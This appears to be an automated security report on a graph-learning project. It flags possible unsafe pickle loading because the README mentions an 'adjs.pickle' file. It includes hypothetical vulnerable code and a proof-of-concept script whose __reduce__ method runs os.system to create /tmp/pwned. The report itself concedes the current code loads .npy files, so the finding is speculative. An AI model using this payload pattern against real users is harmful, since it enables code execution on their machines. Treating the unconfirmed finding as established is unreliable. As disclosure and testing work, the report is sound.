 ### Vulnerability List

- Vulnerability Name: Unsafe Deserialization of Pickle Files
- Description:
    - The project is vulnerable to arbitrary code execution through unsafe deserialization of pickle files.
    - The `README.md` file, under section "2.2 Prepare Your Own Data", suggests that users can provide data in the form of `adjs.pickle`. This implies that the application might be designed to load graph data from pickle files.
    - Pickle is a Python serialization format that is known to be unsafe when loading data from untrusted sources. It allows for arbitrary code execution during deserialization.
    - An attacker can craft a malicious pickle file (e.g., `adjs.pickle`) containing embedded malicious code.
    - If a user is tricked into using this malicious pickle file as input to the application, the `pickle.load` function, if used in the application, will execute the attacker's code during the deserialization process.
- Impact:
    - Critical: Arbitrary code execution.
    - Successful exploitation allows the attacker to execute arbitrary Python code on the machine running the application.
    - This can lead to a wide range of severe security consequences, including:
        - Complete control over the compromised system.
        - Data breaches and exfiltration of sensitive information.
        - Installation of malware, backdoors, or ransomware.
        - Denial of service.
        - Lateral movement within a network.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - None: The provided project files do not include any mitigations against unsafe pickle deserialization. There is no input validation or sanitization related to pickle files in the provided code.
- Missing Mitigations:
    - Avoid Deserializing Pickle Files from Untrusted Sources: The most effective mitigation is to avoid using pickle to load data from sources that cannot be fully trusted.
    - Use Safe Serialization Formats: Replace pickle with safer serialization formats like JSON, MessagePack, or Protocol Buffers, which do not inherently allow arbitrary code execution during deserialization.
    - Input Validation and Sanitization (Ineffective for Pickle): While generally good security practices, input validation and sanitization are not effective against pickle deserialization vulnerabilities because the vulnerability lies in the deserialization process itself, not in the content of the data being deserialized in a traditional sense.
- Preconditions:
    1. The application must be designed to load graph data from pickle files, specifically `adjs.pickle` as suggested in the `README.md`.
    2. An attacker needs to be able to provide or convince a user to use a malicious pickle file as input to the application. This could be achieved through social engineering, supply chain attacks, or by compromising a data source used by the application.
- Source Code Analysis:
    - `File: /code/README.md`: The README explicitly mentions `adjs.pickle` under "2.2 Prepare Your Own Data", indicating the potential use of pickle files for adjacency data.
    - `File: /code/Model/utils.py`: The provided `load_data` function in `Model/utils.py` currently loads `.npy` files using `np.load`. However, the README's mention of `.pickle` files suggests a discrepancy or a potential configuration where pickle files are expected. If the project were to load `adjs.pickle` as implied by the README, a `pickle.load()` operation would be necessary, which is the source of the vulnerability.

    ```python
    # Hypothetical vulnerable code (if pickle loading were implemented based on README):
    import pickle

    def load_adj_pickle(file_adj): # Hypothetical function to load pickle
        with open(file_adj, 'rb') as f:
            adj_d = pickle.load(f) # Unsafe deserialization of pickle file
        adj_read = []
        for item in adj_d: # Assuming pickle structure similar to npy
            num_nodes = item["num_nodes"]
            indptr = item['indptr']
            indices = item['indices']
            weights = item['weights']
            assert num_nodes == len(indptr) - 1
            adj = sp.csr_matrix((weights, indices, indptr), shape=[num_nodes, num_nodes])
            adj_read.append(adj)
        return adj_read

    def load_data(dataDir):
        files = [dataDir + item for item in ["/adjs.pickle", "/feats.npy", "/nodes.npy", ...]] # Modified to load pickle
        [file_adj, file_feat, file_node, file_user, file_query, file_asin, file_query_gt, file_asin_gt, file_kg] = files
        adj = load_adj_pickle(file_adj) # Hypothetical pickle loading function used
        ...
    ```
    - In the hypothetical code above, if `load_adj_pickle` were used to load `adjs.pickle`, any malicious pickle file provided as `file_adj` would lead to arbitrary code execution when `pickle.load(f)` is called.

- Security Test Case:
    1. **Prepare a Malicious Pickle File:**
        - Create a Python script (e.g., `malicious_pickle_gen.py`) to generate a malicious pickle file named `adjs.pickle`. This script will embed code to create a file `/tmp/pwned` as a proof of concept for arbitrary code execution.

        ```python
        # malicious_pickle_gen.py
        import pickle
        import os
        import numpy as np

        class Exploit:
            def __reduce__(self):
                return (os.system, ('touch /tmp/pwned',)) # Malicious payload: creates /tmp/pwned

        data = [{ # Structure mimicking expected data based on load_adj and npy files
            'num_nodes': 2,
            'indptr': np.array([0, 2, 3], dtype=np.int64),
            'indices': np.array([1, 0, 1], dtype=np.int64),
            'weights': np.array([1.0, 1.0, 1.0], dtype=np.float32)
        }, Exploit()] # Injecting malicious object

        with open('adjs.pickle', 'wb') as f:
            pickle.dump(data, f)
        ```

    2. **Replace Data File:**
        - Navigate to the data directory specified in `train.py` (e.g., `../PreProcess/elec/`).
        - Replace the existing `adjs.npy` (or rename it for backup) with the generated `adjs.pickle` file.
        - If a data directory doesn't exist, create it and place `adjs.pickle` inside, along with other necessary data files as per README, but for this test, focusing on `adjs.pickle` is sufficient.

    3. **Run the Training Script:**
        - Execute the `train.py` script from the command line, as described in the "3.0 Usage" section of the `README.md`. For example:
        ```bash
        python code/train.py --data_name elec --data_dir ../PreProcess/
        ```

    4. **Check for Code Execution:**
        - After running the script, check if the file `/tmp/pwned` has been created on the system.
        - If `/tmp/pwned` exists, it confirms that the malicious code embedded in `adjs.pickle` was executed during the data loading process, demonstrating the arbitrary code execution vulnerability.

**Note:** This security test case assumes that the application is modified or intended to load pickle files as suggested by the README. If the application strictly uses `np.load` for `.npy` files as in the provided `Model/utils.py`, this specific pickle vulnerability as described might not be directly exploitable in the current codebase. However, the discrepancy between the README and the code still highlights a potential misconfiguration or intended insecure functionality that should be addressed. The README should be corrected, or the code should be updated to handle pickle files securely or avoid them altogether, if that was the original intention.